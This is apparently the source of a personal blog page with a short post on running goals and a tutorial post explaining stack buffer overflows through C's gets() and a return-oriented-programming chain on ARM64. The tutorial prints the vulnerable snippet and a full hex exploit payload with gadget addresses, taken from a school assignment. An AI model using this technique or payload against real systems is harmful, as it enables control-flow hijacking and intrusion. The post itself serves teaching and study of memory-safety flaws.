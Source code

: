 ```yaml
---
layout: page
title: Blog 
permalink: /blog/
---
```


# First Running Milestone Achieved
 
<text style="color : gray">February 8, 2024</text>

First fitness goal of 2024 achieved: Sub-25-minute 5KM run. 

Also didn't write these earlier but here are my running-related goals for 2024: 

1. Sub-25min 5K 
2. Sub-50min 10K
3. Sub 2hr half-marathon (21.1k)
4. Sub 4hr marathon (42.2k)

<br>
<br>

# Hacking the stack using code injection and ROP 

<text style="color : gray">February 2, 2024</text>

Using C's `gets()` function can have serious cybersecurity risks.

Say a function asks for a 16-byte string argument from a user: 

```c
int main() { 
    char buf[16];
    gets(buf);
    return 0;
}
```

Then, upon calling `gets(buf)`, the stack will look something like
```
higher addr's

|      stack contents     |
|-------------------------|
|      stack contents     |
|-------------------------|
|      stack contents     |
|-------------------------|
|      buf bytes 0-7      |
|-------------------------|
|      buf bytes 8-15     |
--------------------------- < top of stack
```

The issue with this is that `gets()` will keep reading and copying input from the input past 16 bytes allocated for `buf`.

What happens then? 

Lets use the following input bytes as an example: 

```
ff ff ff ff ff ff ff ff 
ff ff ff ff ff ff ff ff 
12 34 56
```

Then, the stack might look a bit like: 

```
|      stack contents     |
|-------------------------|
|      stack contents     |
|-------------------------|
| 12 34 56 k contents     |
|-------------------------|
| ff ff ff ff ff ff ff ff |
|-------------------------|
| ff ff ff ff ff ff ff ff |
--------------------------- < top of stack
```

Even though we have filled buf, the program keeps loading in bytes 
onto the stack until a terminating character is entered. Anything that was previously stored on the stack can get overwritten.

What's stored on the stack? 

Link Registers (saved addresses to return to after a subroutine)!

This means that when we are inside a subroutine, somewhere on the stack there is a return address saved to jump back to once we exit the current subroutine.

Thus, we can overwrite the address on the stack using `gets(buf)` and a carefully crafted user input. One example I had from a school assignment:

```
11 11 11 11 11 11 11 11 
11 11 11 11 11 11 11 11 
11 11 11 11 11 11 11 11 
11 11 11 11 11 11 11 11 
11 11 11 11 11 11 11 11 
11 11 11 11 11 11 11 11 
11 11 11 11 11 11 11 11 
11 11 11 11 11 11 11 11 
11 11 11 11 11 11 11 11 
54 3e 45 00 00 00 00 00 // 0x453e54, address of gadget 1 (load x1) to load in read_file lr
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
80 9a 44 00 00 00 00 00 // 0x449a80, address of gadget 2 to load x0, placed in lr during gadget 1
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
90 ca f0 ff ff ff 00 00 // 0xfffffff0ca90, value of x1 (addr of ph33rm3n00bz)
11 11 11 11 11 11 11 11
e8 07 40 00 00 00 00 00 // 0x4007e8, addr of pwn3
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
3c 00 00 00 00 00 00 00  // 60, value to put in x0 in gadget 2
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
70 68 33 33 72 6d 33 6e // ph33rm3n00bz, value to put in x1, placed near value of $sp when reaching pwn3 
30 30 62 7a 00 00 00 00 
``` 
The above input was used to overwrite 3 link registers, overwrite 2 registers, and jump 3 different points in the code: 
1. Load the register x1 with a pointer that points to a space in memory that holds a string argument (at the end of the user-inputted data above). Since this will go into `x1`, this will be the second argument passed into any the function according to ARM64 assembly's call convention.
2. Load a value into `x0`. I had to find a [gadget](https://en.wikipedia.org/wiki/Return-oriented_programming) that wrote a value at a stack offset into `x0`, and then place the value on the stack in that special spot, all without modifying `x1` in the process, as that stored our string argument. 
3. Jump to a gadget that saves a text file with the contents of the first two variables. In a real hacking situation, the end goal would be to open a terminal to gain full access to the device, which may involve a `syscall` call. This was a harmless exercise, so it just saves a text file and we are satisfied.
